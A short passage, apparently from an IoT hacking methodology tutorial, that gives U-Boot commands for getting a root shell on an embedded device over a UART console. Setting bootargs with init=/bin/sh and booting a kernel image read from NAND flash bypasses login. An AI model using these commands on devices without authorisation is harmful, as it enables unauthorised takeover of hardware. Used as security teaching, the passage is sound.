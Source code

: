 4. Run the following command to load the environment variables into the device: 

**setenv bootargs 'noinitrd console=ttyAM0,115200 rootfstype=ubifsubi.mtd=5 root=ubi0:rootfs rw gpmi init=/bin/sh';** 

5. Run the following command on the UART console to gain root access: 

**nand read ${loadaddr} app-kernel 0x00400000 && bootm ${loadaddr}** 

Here, the **bootm** command helps in loading the backup privileged booting image from the flash memory. 

![glitching](/IoT-and-OT-Hacking/IoT-Hacking-Methodology/images/glitching-4.png) 
